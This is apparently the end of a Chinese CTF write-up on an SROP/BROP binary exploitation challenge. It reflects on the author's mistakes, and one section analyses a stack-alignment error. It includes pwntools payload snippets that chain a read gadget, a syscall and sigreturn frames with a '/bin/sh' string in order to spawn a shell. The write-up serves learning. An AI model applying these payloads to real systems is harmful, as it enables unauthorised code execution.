 ```python
```

---

## 总结

因为`SROP`的题做的少，并且也是第一次做`BROP`，所以还是踩了非常多的坑

### 1. 喜欢猜

首先就是投入了过多的事件去猜测而非测试，在循环测试`popgadget`的时候总是纠结于去根据其指令长度去猜测具体指令

### 2.泄露了程序结果还在用不确定的gadget

有明确的地址和指令不看结果还在用遍历出来的不确定的gadget，导致做了很多未知的操作而影响exploit



### 详细踩坑经过

先看两段payload

```python
bss = 0x600108
readRet = 0X4000EE
sysCall = 0X400100
payloadA = p64(0xdeadbeef)*2  + p64(readRet)    + p64(sysCall) + bytes(frame)
payloadB = b"/bin/sh\x00"     + p64(0xdeadbeef) + p64(readRet) + p64(sysCall) + bytes(sysFrame)
```

#### payloadA

首先两段死牛肉是padding，readRet也无异常，不破坏栈平衡，从sysCall开始导致我踩坑，看汇编

```assembly
400100 0F 05                         syscall                                 ; LINUX - sys_read
400102 48 83 C4 10                   add     rsp, 10h
400106 C3                            retn
```

是的，在系统调用完还有一个`add rsp,10h`的操作呢

而由`SROPA->read(0,0x600108,0x400)`可知当`SropA`执行完后实际上我的`rsp`需要越过`sh`字符串进而指向`readRet`，于是我在忽视了上述栈平衡操作的情况下进行了如下的`srop`布置

```python
frame.rsi = bss
frame.rsp = bss+8
```

但是由于`add rsp, 10h`的存在，导致`srop`默认既为

```python
frame.rsp = bss+0x10
```

所以我非但不能给`rsp+8`，我还得在`payloadB->sh`后面填上一坨死牛肉，才不会影响程序流程

#### payloadB

这里没啥问题的，迎合`add rsp, 10h`再加个死牛肉就好了